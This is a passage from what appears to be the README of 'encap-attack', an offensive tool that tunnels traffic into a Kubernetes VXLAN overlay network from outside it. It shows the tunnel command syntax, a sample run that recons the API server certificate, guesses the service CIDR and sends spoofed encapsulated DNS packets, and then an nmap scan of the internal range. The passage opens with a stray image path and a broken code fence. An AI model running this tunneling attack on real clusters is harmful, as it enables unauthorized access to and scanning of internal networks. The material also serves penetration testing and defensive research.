 ```
</html>
```

The `vxlan` subcommand also provides a tunnel option, similar to the `ipip` subcommand, with the same functionality. As a reminder, this routes all traffic destined for specific IP ranges into the encapsulated network. The `-a` flag is optionally used to specify a Kubernetes API server. If this value is set, the API server will be queried to guess the service IP range (as per `kubeintel guess-cidr` above) - and this route will automatically be added to the tunnel. Additional routes can be added with the `-r` flag. Use Ctrl+C to shut down the tunnel.

```shell
encap-attack -d <destination_host_ip> -s <another_host_ip> -mi <vtep> --vni <vni> -pd <vxlan_tunnel_port> tunnel -a <api_server_address> -r <route_cidr>
```

Example:

```
# encap-attack -d 192.168.124.10 -s 192.168.124.11 -mi 99:aa:bb:cc:dd:ee --vni 4096 --pd 4789 tunnel -a 192.168.124.9 -r 10.2.0.0/16 -r 10.3.0.0/16
Running in VXLAN mode

Interface IP: 192.168.124.200

Kubernetes API server certificate information:
  Subject: kube-apiserver
  Issuer: kubernetes
  IPs: 10.96.0.1, 192.168.124.9
  Hostnames: kubernetes, kubernetes.default, kubernetes.default.svc, kubernetes.default.svc.cluster.local, master

Guessed service CIDR: 10.96.0.0/12
kube-dns DNS server may be available at: 10.96.0.10:53
Cluster DNS suffix: cluster.local


Starting tunnel tun0, press Ctrl+C to stop...


Encapsulating packet: IP / UDP / DNS Qry "b'kube-dns.kube-system.svc.cluster.local.'"
Sending encapsulated packet: Ether / IP / UDP / VXLAN / Ether / IP / UDP / DNS Qry "b'kube-dns.kube-system.svc.cluster.local.'"
```

All requests to the defined routes (in this example, `10.2.0.0/16`, `10.3.0.0/16`, and the service IP range guessed from information from the API server - `10.96.0.0/12`) will then be encapsulated and routed into the overlay network. This permits the usage of other tooling (e.g., `nmap`) within the overlay network from an external perspective:

```shell
nmap -sT 10.2.0.0/16
```

# Acknowledgements
